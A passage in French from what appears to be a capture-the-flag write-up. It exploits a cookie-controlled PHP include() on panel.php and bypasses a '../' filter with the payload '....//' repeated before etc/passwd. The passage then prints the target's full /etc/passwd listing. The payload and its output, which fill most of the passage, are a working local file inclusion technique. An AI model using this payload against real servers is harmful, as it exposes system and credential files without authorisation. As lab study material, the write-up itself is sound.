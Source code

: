 Mais que ce soit avec *admin* ou *Jack* je n'ai eu aucun résultat valide :(  

J'ai fouiné toujours plus et remarqué que lorsque l'on dépasse une certains quantité de *failcount*, le serveur retourne un cookie *intruder=1*.  

Et si on demande *panel.php* avec ce cookie défini on découvre que du code html supplémentaire est ajouté à la fin avec *"INTRUDER ALERT!"* :)  

Il y a donc fort à parier que le script fait un bête *include()* de la valeur du cookie *intruder* (rappelez-vous le fichier dont le nom est *1*).  

Et effectivement si on défini ce cookie à *"server.php"* la page *server.php* se retrouve dans *panel.php*.  

Seulement... */etc/passwd* ne passe pas et *../../../../../../../etc/passwd* non plus. Etonnant car par exemple *./server.php* fonctionne.  

Vraisemblablement il y a un filtre qui doit retirer les tentatives de remontée d'arborescence.  

Si on met *intruder=../server.php* alors BANG ! On retrouve *server.php* qui est dans le dossier local !  

Le script fait en réalité un *str\_replace* tout bête et si on passe *....//....//....//....//....//....//....//....//etc/passwd* j'obtiens :  

```plain
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/bin/sh
man:x:6:12:man:/var/cache/man:/bin/sh
lp:x:7:7:lp:/var/spool/lpd:/bin/sh
mail:x:8:8:mail:/var/mail:/bin/sh
news:x:9:9:news:/var/spool/news:/bin/sh
uucp:x:10:10:uucp:/var/spool/uucp:/bin/sh
proxy:x:13:13:proxy:/bin:/bin/sh
www-data:x:33:33:www-data:/var/www:/bin/sh
backup:x:34:34:backup:/var/backups:/bin/sh
list:x:38:38:Mailing List Manager:/var/list:/bin/sh
irc:x:39:39:ircd:/var/run/ircd:/bin/sh
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh
nobody:x:65534:65534:nobody:/nonexistent:/bin/sh
libuuid:x:100:101::/var/lib/libuuid:/bin/sh
Debian-exim:x:101:104::/var/spool/exim4:/bin/false
statd:x:102:65534::/var/lib/nfs:/bin/false
sshd:x:103:65534::/var/run/sshd:/usr/sbin/nologin
postgres:x:104:108:PostgreSQL administrator,,,:/var/lib/postgresql:/bin/bash
george:x:1000:1000:george,,,:/home/george:/bin/bash
mysql:x:105:109:MySQL Server,,,:/nonexistent:/bin/false
jack:x:1001:1001::/home/jack:/bin/sh
milk_4_life:x:1002:1002::/home/milk_4_life:/bin/sh
developers:x:1003:1003::/home/developers:/bin/sh
bazza:x:1004:1004::/home/bazza:/bin/sh
oj:x:1005:1005::/home/oj:/bin/sh
```
